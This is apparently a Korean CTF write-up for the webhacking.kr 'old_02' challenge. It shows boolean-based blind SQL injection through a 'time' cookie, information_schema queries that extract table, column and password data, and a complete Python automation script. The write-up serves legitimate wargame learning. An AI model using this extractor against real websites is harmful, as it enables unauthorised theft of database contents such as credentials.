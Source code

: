 ## old_02

![vmware_WWvlGzR1z0](https://user-images.githubusercontent.com/79683414/142334224-11fd6d90-215e-422f-9b0b-0a02034d3036.png)

```html
<!--
2021-11-18 10:26:21
-->
<h2>Restricted area</h2>Hello stranger. Your IP is logging...
<!-- if you access admin.php i will kick your ass -->
```

<br>

<br>

_admin.php_

![vmware_SBpAYYz30J](https://user-images.githubusercontent.com/79683414/142334451-d13ff3bb-ebfc-421a-9eba-bc0358d126f8.png)



<br>

admin.php 에서는 POST 로 패스워드를 보내는 형식이다. 스크립트 태그와 SQL 인젝션을 테스트 했지만 취약점이 확인되지 않았다.

처음엔 아무렇지 않게 넘겼지만, Redirected area에 수상한 점이 있다.

접속한 시간대가 표시되고 있다.

<br>

![vmware_ZLUwU7DfDd](https://user-images.githubusercontent.com/79683414/142334941-8c6bb4d1-c434-47b4-9493-8da4c185a2d3.png)

<br>

Burpsuite 로 패킷을 분석해보았다.

<br>

![vmware_m5widKW9CY](https://user-images.githubusercontent.com/79683414/142335166-a812960d-df6c-41a7-9975-c532639f68ac.png)

<br>

현재 시간을 받아와서 어떤 변환을 거쳐 Cookie: time 값으로 세팅되는 듯 한데,

어떤 식으로 동작하는지, Repeater를 이용해 여러 값을 테스트했다.

<br>

![vmware_hfrQtFlNnP](https://user-images.githubusercontent.com/79683414/142336093-e53e7160-8eef-44fb-a43c-95a01a4987d4.png)

![vmware_lKW7RKOAOi](https://user-images.githubusercontent.com/79683414/142336050-528f0e7c-8315-4013-978a-bd1050550a0f.png)

![vmware_gisBhzKPZy](https://user-images.githubusercontent.com/79683414/142336211-91c42e43-2ee4-412b-8186-889c18a6eebf.png)

![vmware_XGn6C0sYXv](https://user-images.githubusercontent.com/79683414/142336229-2a33661d-e121-466b-be21-8fc172802dea.png)<br>

time=0 인 경우, 값이 다시 세팅되 버린다.

1, 2, 123 을 대입했을 때의 결과를 보면, 정수값을 '분/초' 로 변환하고 있다는 것을 알 수 있다.

여기도 스크립트나 SQL 을 테스트 해 보자.

<br>

![vmware_DrmXgJiXex](https://user-images.githubusercontent.com/79683414/142337192-43a362bb-a3fe-48e2-9ed1-4e2a0fbe8b4d.png)

![vmware_wYjdCNgcBe](https://user-images.githubusercontent.com/79683414/142338611-9c710c54-3da8-432d-a881-c87498f61378.png)
![vmware_IAVe1qM20n](https://user-images.githubusercontent.com/79683414/142338614-74f2cb7a-c51b-4dc5-babb-551d9f841c92.png)

<br>

추측해보면, time 의 값이 참이면 해당되는 정수값을 시간으로 변환하여 출력하는 듯 하다. 따라서, Boolean-Based SQL Injection 이 가능하다.

<br>

information_schema 를 이용하여 `개수 > 길이 > 이름` 순으로 데이터를 추출했다.

SQL 문은 `( )` 로 감싸주지 않으면 의도한 결과를 출력하지 않는다.

1. 테이블 개수 : select count(table_name) from information_schema.tables where table_schema=database()

2. 테이블 이름 길이 : select length(table_name) from information_schema.tables where table_schema=database() limit 0,1

3. 테이블 이름: select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1

<br>

![vmware_5tpZLzuthy](https://user-images.githubusercontent.com/79683414/142339222-9cabb5fa-5167-4f84-94ad-dd4914ebe8ef.png)

사용중인 Database에는 2개의 테이블이 있고,

<br>

![vmware_mH7o1ECqiZ](https://user-images.githubusercontent.com/79683414/142340121-83993c15-2bbe-46b6-8d2d-882fd119ef5d.png)

첫 번째 테이블명의 길이는 13 이다.

<br>

![vmware_8f6TRx7oYT](https://user-images.githubusercontent.com/79683414/142340324-bfdc7379-3423-487c-9cb0-f206250443b5.png)

<br>

substring 을 이용해 문자 하나를 추출하고, 참인 정수값만 그대로 출력되기 때문에

ascii()를 이용한다. substring은 limit 와 다르게 index가 0 부터 시작한다.

나머지 과정은 아래와 같다.

<br>

- 컬럼 개수 : select count(column_name) from information_schema.columns where table_name="admin_area_pw"

- 컬럼 이름 길이: select length(column_name) from information_schema.columns where table_name="admin_area_pw" limit 0,1

- 컬럼 이름 : select ascii(substring(column_name, 1, 1)) from information_schema.columns where table_name="admin_area_pw" limit 0,1



_패스워드_

- select count(pw) from admin_area_pw

- select length(pw) from admin_area_pw limit 0,1

- select ascii(substring(pw, 1,1)) from admin_area_pw limit 0,1

<br>

이를 파이썬 코드로 자동화 해봤다.

<details>
    <summary>Python Code</summary>

```python
import urllib.request

sid = ""	# 세션 ID 값
cookie = "time=({});PHPSESSID=" + sid
pre = {
    "count": "select count({}) from {} where {}",
    "len": "select length({}) from {} where {} limit {},1",
    "data": "select ascii(substring({}, 1)) from {} where {} limit {},1"
}


# 쿼리문 수행
def inject(query):
    url = "https://webhacking.kr/challenge/web-02/"
    req = urllib.request.Request(url)
    req.add_header("Cookie", cookie.format(query))
    res = urllib.request.urlopen(req)
    read = str(res.read().decode("utf-8")).split()
    time = list(map(lambda x: int(x), read[2].split(":")))
    return (60 * time[1]) + time[2]


# 데이터 개수 -> 각 데이터 길이 -> 한 글자씩 데이터 추출
def get_data(column, table, where):
    result = {}
    query = pre["count"].format(column, table, where)
    cnt = inject(query)
    print(query)
    print(cnt)
    if cnt > 20:
        return "Unavailable"
    for i in range(cnt):
        data = ""
        query = pre["len"].format(column, table, where, i)
        length = inject(query)
        print(query)
        print(length)
        # limit은 첫 인덱스가 0, substirng 은 1부터 시작이다...
        for j in range(1, length+1):
            query = pre["data"].format(column + "," + str(j), table, where, i)
            data += chr(inject(query))
            print(query)
            print(data)
        if where == "true":
            return data
        result[data] = {}
    return result


def get_tables():
    tables = get_data("table_name", "information_schema.tables", "table_schema=database()")
    for table in tables.keys():
        tables[table] = get_data("column_name", "information_schema.columns", "table_name=\"{}\"".format(table))
    return tables


def start_injection():
    tables = get_tables()
    print("[tables]")
    print(tables)
    for table in tables.keys():
        for col in tables[table]:
            data = get_data(col, table, "true")
            tables[table][col] = data
    print(tables)


if __name__ == "__main__":
    start_injection()

```

<br>

![pycharm64_mwTBEejV4T](https://user-images.githubusercontent.com/79683414/142340964-65bbf262-0948-4690-b756-83480feecb13.png)

</details>

